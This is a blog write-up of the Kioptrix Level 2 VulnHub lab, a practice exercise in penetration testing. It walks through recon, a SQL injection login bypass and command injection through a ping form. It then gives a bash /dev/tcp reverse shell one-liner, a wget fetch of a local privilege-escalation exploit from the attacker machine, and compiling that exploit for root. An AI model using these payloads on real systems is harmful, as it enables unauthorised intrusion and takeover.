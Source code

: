 ```yaml
---
layout: post
title: "Write-up for Kioptrix 2"
categories: jekyll
permalink : write-ups/kioptrix_2
---
```


#### Kioptrix Level 2

Hey there, welcome back.. for today, we will play with [Kioptrix 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

First, I ran ifconfig and netdiscover to find my Kali ip and the target ip.
>ifconfig
>netdiscover -i eth0 -r 192.168.1.0/24

![ifconfig](/assets/kioptrix_2/ifconfig_netdiscover.png)

and after that, I scanned the target using the following nmap options;
>nmap -sS -sV -A -v 192.168.1.101

![first_result](/assets/kioptrix_2/nmap_result.png)

as we can see above, the target is using **OpenSSH 3.9p1** and **Apache httpd 2.0.52**. After a quick find on `searchsploit`, the only thing I could find is Denial of service (DoS) attack on the machine..

![only_dos](/assets/kioptrix_2/only_dos.png)

And yeah, we don't want to DoS it, it's not our job for now.. ಠ_ಠ

So, I'll go with web-based attack.

I used nikto and dirb on the target to list directories and find vulnerable configurations.

![nikto_dirb](/assets/kioptrix_2/nikto_dirb.png)

Okay, nothing interesting here..

Let's open the browser and connect to the target webpage since the port `80` is open (based on the nmap result)

![webpage](/assets/kioptrix_2/homepage.png)

Wow, what a beautiful homepage.. ✖‿✖

The first thing that came to my mind was.. SQLi attack,so I inserted
> ' or ''='

in the username and password field, and it worked! Yayy..

![pingit](/assets/kioptrix_2/ping.png)

Based on the image, the form will ping any ip that we put inside the text field, so I tried to ping my Kali machine located at `192.168.1.5`.

![pingKali](/assets/kioptrix_2/ping_Kali.png)

The output showed that the form executed a simple `ping` command, something like this;
> ping 192.168.1.5 -c 3

I guess the form will send what's inside the text field and pass it into ping command of the machine OS.

Then, it is possible that the field is vulnerable to multiple code execution using the `;` symbol. The symbol is usually used to separate and execute different commands, for example;
> cat meow.txt; echo "y4t0-chan kawaii"

will show the output of the file named **meow.txt** and then print out the word **y4t0-chan kawaii**

To test whether it is possible, I put `192.168.1.5;ls` in the text field.

![OS_command](/assets/kioptrix_2/OS_command_exec.png)

and it worked.

Now, let's use this to gain shell from our Kali machine.

I tried to use `netcat` but nothing happened, so I used a workaround that uses `bash` to create a reverse shell back to the Kali machine.

First, we need to set up a listener on our Kali machine by using following command;
> nc -lvp 1234

![listener](/assets/kioptrix_2/nc_listener.png)

and then , on the text field of the form, add;
> 192.168.1.5;bash -i >& /dev/tcp/192.168.1.5/1234 0>&1

![submit](/assets/kioptrix_2/submit_r_shell.png)

The second command was basically used to open a reverse shell and connect to the listening port of our Kali machine.

Once connected, I tried to find more information about the target.

![connected](/assets/kioptrix_2/connected_shell.png)

Since the user is **apache** and not in the **superuser** group, I need to use privilege escalation attack to gain root access.

After using some keywords to search for available exploits in `searchsploit`, I stumbled upon a local priv. esc. attack for **CentOS 4.5**.

![9542](/assets/kioptrix_2/9542.png)

So, I copied the exploit into my `/var/www/html` directory and I fetched it from the target machine using `wget` method.

### in **Kali**
> cp /usr/share/exploitdb/exploits/linux_x86/local/9542.c

I needed to ensure my apache service is running so, I ran;
> service apache2 restart

### in **CentOS 4.5**
since I cant download it directly into the current directory, I moved myself into the /tmp folder.
> cd /tmp  
> wget http://192.168.1.5/9542.c  

and then, I compiled and ran the exploit...

(ﾉ◕ヮ◕)ﾉ*:･ﾟ✧

> gcc 9542.c -o priv  
> chmod +x priv  
> ./priv  

![priv.png](/assets/kioptrix_2/priv.png)

... and we finally got our root access. That's all for today. Thank you..
